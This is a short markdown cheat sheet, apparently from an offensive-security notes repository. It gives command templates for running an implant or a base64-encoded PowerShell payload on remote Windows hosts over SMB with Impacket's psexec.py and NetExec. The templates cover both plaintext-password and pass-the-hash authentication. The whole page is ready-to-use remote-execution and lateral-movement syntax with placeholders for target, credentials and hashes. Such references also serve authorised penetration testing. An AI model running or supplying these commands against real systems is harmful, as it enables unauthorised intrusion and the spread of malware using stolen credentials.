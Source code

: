 # Unix Shell

## 01 - Impacket

TODO: Provide more flags for different implant format files. `.exe` and `.ps1`

Authenticate syntax

```
$ psexec.py [<domain>/]<username>:<password>@<IP> -c implant.bat

$ psexec.py [<domain>/]<username>@<IP> -hashes :<nt_hash> -c implant.bat
```

## 02 - NetExec

Authenticate via username and password

```
$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth] -x implant.bat

$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth] -x "powershell -E <base64_payload>"
```

Authenticate via Pass The Hash

```
$ netexec smb <IP> -u "<username>" -H <nt_hash> [-d <domain> | --local-auth] -x implant.bat

$ netexec smb <IP> -u "<username>" -H <nt_hash> [-d <domain> | --local-auth] -x "powershell -E <base64_payload>"
```
